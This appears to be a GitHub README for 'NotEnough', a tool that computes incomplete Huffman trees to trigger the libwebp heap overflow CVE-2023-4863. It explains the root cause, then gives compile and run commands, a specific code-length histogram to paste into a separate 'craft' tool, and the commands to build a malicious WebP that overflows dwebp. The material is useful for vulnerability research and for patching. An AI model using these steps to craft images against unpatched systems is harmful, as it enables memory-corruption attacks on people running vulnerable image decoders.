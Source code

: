 # Huffman table hacking tool



This tool calculates tricky canonical huffman histogram, which is able to trigger OOB (Out Of Band) write for vulnerable libwebp library (i.e. libwebp <= `1.3.1`). This vulnerability is known as `CVE-2023-4863` or `CVE-2023-41064`. We can overflow the pre-allocated huffman table by  at most **132 entries**.

The rationale is that libwebp assumes the huffman histogram contained in each webp image is well formated. That is, the decoding tree must be a **complete tree**. With this assumption, the libwebp group took advantage of an [enough](https://github.com/madler/zlib/blob/develop/examples/enough.c) tool to estimate the maximum memory size to build the decoding huffman table (a powerful structure to decode canonical huffman codes rapidly). However, hackers are able to construct an **incomplete** tree to go beyond this memory limit and thus overflow the pre-allocated memory.

This hacking tool was created by adjusting [enough](https://github.com/madler/zlib/blob/develop/examples/enough.c) with incomplete tree support.


Compile the code using command below:


```bash
gcc -o NotEnough ./main.c
```

For a huffman table with 40-symbol, 8-bit root table and maximum depth being 15, the maximum number of table entries is `410`. However, by constructing an incomplement tree, the number of table entries could be `542`. Try the command below:


```bash
./NotEnough 40 8 15
```

An example of such trees is as below:


![Bad tree](img/graphviz-40-542-tree.svg)

Note that we pruned the branches with no leaves for brief.

 You can then use the [craft](https://github.com/mistymntncop/CVE-2023-4863) tool to construct an effective webp image to overflow **dwebp** tool (version <= `1.3.1`). Change the huffman code histogram **code\_lengths\_counts[4]** to {0, 1, 0, 0, 0, 0, 0, 0, 0, 3, 5, 9, 17, 1, 1, 3} accordingly, and rebuild the tool:



```bash
vim craft.c    # Change huffman code histogram accordingly, i.e. about line 495.
gcc -o craft craft.c
./craft -o bad_542.webp
```



Please check [@benhawkes's blog](https://blog.isosceles.com/the-webp-0day/) to have a better idea of `CVE-2023-4863`.




